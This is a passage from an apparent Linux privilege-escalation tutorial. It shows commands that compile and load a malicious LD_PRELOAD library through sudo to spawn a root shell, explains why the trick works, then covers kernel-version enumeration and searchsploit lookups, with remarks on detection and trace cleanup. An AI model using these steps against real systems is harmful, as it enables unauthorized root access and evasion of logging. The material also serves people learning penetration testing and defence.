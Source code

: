 ```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c

# Use with vulnerable program:
sudo LD_PRELOAD=/tmp/preload.so some_program
```

**Why This Works**:
1. The `_init()` function runs when the library loads
2. `setresuid(0,0,0)` sets real, effective, and saved UIDs to root
3. `system("/bin/bash")` gives you a root shell
4. This happens before the main program executes

---

## Kernel Exploits - Breaking the Foundation

### When to Consider Kernel Exploits
Kernel exploits should be your **last resort** because:
- **System instability**: Can crash the entire system
- **Detection risk**: Often leave traces in system logs
- **Reliability issues**: May not work on all configurations
- **Cleanup difficulty**: Hard to remove traces after execution

### The Kernel Vulnerability Landscape

**Why Kernel Exploits Work**:
- **Kernel privilege**: The kernel runs with ultimate system privileges
- **Complex code**: Millions of lines of code with inevitable bugs
- **Hardware interaction**: Low-level operations are error-prone
- **Backward compatibility**: Old code paths may have vulnerabilities

### Research and Identification Process

**Kernel Version Analysis**:
```bash
# Get detailed kernel information:
uname -r                   # Release version
cat /proc/version          # Compilation details
cat /etc/os-release        # Distribution information
```

**Exploit Research Strategy**:
```bash
# Search exploit databases:
searchsploit linux kernel $(uname -r)
searchsploit ubuntu $(lsb_release -r | cut -f2)
```

**Online Resources**:
- **CVE databases**: Check for recent kernel vulnerabilities
- **Exploit-DB**: Searchable exploit database
- **GitHub**: Often has proof-of-concept exploits
- **Security advisories**: Distribution-specific vulnerability announcements
